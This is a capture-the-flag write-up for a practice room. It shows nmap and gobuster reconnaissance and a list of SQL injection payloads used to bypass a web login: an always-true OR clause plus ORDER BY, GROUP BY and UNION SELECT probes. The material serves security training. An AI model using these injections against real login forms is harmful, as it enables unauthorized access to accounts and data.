 # Lesson Learned?

**Room Link:** [https://tryhackme.com/room/lessonlearned](https://tryhackme.com/room/lessonlearned)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Browser**

<figure><img src="../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Option #1&#x20;

Used this page to collect possible injections

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
```

<figure><img src="../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>



Add list above as payload in position 1 and 2

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
Username: 1' UNION SELECT null-- -
Password: 1' GROUP BY 2--+
```



<figure><img src="../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>









